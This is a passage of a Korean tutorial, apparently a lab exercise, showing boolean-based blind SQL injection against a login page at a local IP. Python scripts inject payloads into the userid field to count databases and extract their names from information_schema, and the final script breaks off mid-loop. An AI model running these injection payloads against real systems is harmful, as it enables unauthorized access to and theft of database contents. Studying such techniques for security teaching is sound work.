 결과는 다음과 같다.

	DATABASE : test

DBMS의 모든 데이터베이스 이름을 확인해보자.

먼저 COUNT를 이용하여 데이터 베이스 수를 확인하자.

SELECT의 이중쿼리의 경우 출력결과가 1개로 나와야 하며 괄호를 이용하여 감싸준다.

```py
for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND (SELECT COUNT(SCHEMA_NAME) FROM information_schema.SCHEMATA)={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'Number of databases : {RESULT_LENGTH}')
```

다음으로 LIMIT을 이용하여 하나 씩 데이터베이스 이름의 문자열 길이를 확인하자.

```py
QUERY       = requests.utils.quote(f'test\' AND LENGTH((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1))={j}#')
```

다시 SUBSTR로 문자열을 하나씩 확인한다.

```py
QUERY       = requests.utils.quote(f'test\' AND ASCII(SUBSTR((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1),{j+1},1))={ord(s)}#')
```

다음의 Full Code로 모든 데이터베이스의 이름을 확인해보자.

```py
import requests
import string

TARGET          = 'http://192.168.0.58/index.php'
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND (SELECT COUNT(SCHEMA_NAME) FROM information_schema.SCHEMATA)={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'Number of databases : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    DATABASE_NAME_LENGTH    = 0
    DATABASE_NAME           = ''
    for j in range(100):
        QUERY       = requests.utils.quote(f'test\' AND LENGTH((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1))={j}#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        REQUEST     = requests.get(url=URL)
        if REQUEST.text == 'Welcome test': DATABASE_NAME_LENGTH = j
    for j in range(DATABASE_NAME_LENGTH):
        for s in string.printable.strip():
            QUERY       = requests.utils.quote(f'test\' AND ASCII(SUBSTR((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1),{j+1},1))={ord(s)}#')
            URL         = TARGET + f'?userid={QUERY}&password=123'
            REQUEST     = requests.get(url=URL)
```